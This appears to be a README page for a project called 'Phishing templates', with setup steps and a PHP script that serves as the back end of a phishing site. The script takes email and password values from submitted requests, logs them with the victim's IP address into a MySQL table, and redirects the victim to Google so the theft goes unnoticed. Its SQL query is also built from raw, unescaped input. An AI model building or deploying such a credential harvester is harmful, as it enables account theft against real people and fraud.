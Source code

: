 Phishing templates.

Db connection:
Create a database, modify the following text in php and add it to the files.

PHP connection:
---------------------------------------------------------------------------------------------------------------------
"<?php

$servername = "localhost";

$database = "X";

$username = "X";

$password = "X";

// creamos conexion

  $conn = mysqli_connect($servername, $username, $password, $database);
  
//si estan todos los campos rellenos los insertamos en la base de datos

  if( isset($_GET["email"]) && isset($_GET["password"]) && isset($_SERVER["REQUEST_METHOD"]) ){
  
$pass = $_GET["password"];

$mail = $_GET["email"];

 if (!empty($_SERVER['HTTP_CLIENT_IP'])) {
        $ipAddress = $_SERVER['HTTP_CLIENT_IP'];
    } elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR'])) {
        $ipAddress = $_SERVER['HTTP_X_FORWARDED_FOR'];
    } else {
        $ipAddress = $_SERVER['REMOTE_ADDR'];
    }

  $insert = "insert into datos values('$mail', '$pass', '(WEB)', '$ipAddress')";

//realizamos consulta para insertar los datos

  $return = mysqli_query( $conn, $insert);
  
  print_r( ( $return));
        header("Location: https://www.google.es");
        exit();
        
}

mysqli_close( $conn);

?>"



